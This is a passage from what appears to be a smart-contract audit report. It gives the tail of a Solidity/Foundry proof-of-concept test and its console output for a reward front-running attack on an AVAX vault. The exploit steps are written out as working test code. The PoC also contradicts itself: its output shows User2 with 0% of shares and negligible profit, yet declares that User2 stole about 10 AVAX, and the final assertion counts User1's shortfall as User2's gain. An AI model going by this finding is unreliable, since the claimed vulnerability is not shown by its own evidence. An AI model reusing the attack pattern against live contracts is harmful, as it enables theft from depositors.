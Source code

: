 ```solidity 
        console.log("User1 actually receives: ~%s AVAX (%s%% of rewards)", user1ExpectedRewards / 1e18, user1SharePercentage);
        console.log("User1 lost: ~%s AVAX", (1000 ether - user1ExpectedRewards) / 1e18);
        
        // STEP 9: Conclusion
        console.log("===== CONCLUSION =====");
        console.log("VULNERABILITY CONFIRMED: User2 was able to steal rewards from User1");
        console.log("by front-running the reward distribution with a minimal deposit.");
        console.log("This is possible because rewards are distributed based on current");
        console.log("share ownership, not how long users have held their shares.");
        
        // Optional: Have User2 withdraw their funds to complete the attack
        vm.startPrank(user2);
        IBaseVault(vault).queueWithdrawal(user2Shares, user2);
        vm.stopPrank();
        
        vm.prank(address(strategy));
        IBaseVault(vault).executeQueuedWithdrawals();
        
        console.log("User2 has now withdrawn their funds, completing the attack.");

        // Assert that User2 gained approximately 10 AVAX
        uint256 user2Gain = 1000 ether - user1ExpectedRewards;
        assertApproxEqAbs(user2Gain, 10 ether, 0.1 ether, "User2 should gain approximately 10 AVAX");
    }
}
```
The test output confirms the vulnerability:

===== STEP 1: User1 deposits a significant amount =====
User1 shares: 1999999998000000
===== STEP 2: Time passes (1 day) =====
===== STEP 3: 1000 AVAX rewards are added to the vault =====
===== STEP 4: User2 front-runs with a minimal deposit =====
User2 shares: 399999000000
User2 share percentage: 0%
===== STEP 5: Trigger reward distribution (_updatePool) =====
===== STEP 6: Check reward distribution =====
User1 expected rewards: ~990 AVAX (99% of shares)
User2 expected rewards: ~0 AVAX (0% of shares)
===== STEP 7: Demonstrate the exploit =====
User2 contributed: 0 AVAX equivalent
User2 expected rewards: 0 AVAX
User2 profit: negligible (but still unfair for time spent)
===== STEP 8: Show what User1 lost =====
User1 would have received: 1000 AVAX (100% of rewards)
User1 actually receives: ~990 AVAX (99% of rewards)
User1 lost: ~10 AVAX
===== CONCLUSION =====
VULNERABILITY CONFIRMED: User2 was able to steal rewards from User1
by front-running the reward distribution with a minimal deposit.
This is possible because rewards are distributed based on current
share ownership, not how long users have held their shares.
User2 has now withdrawn their funds, completing the attack.
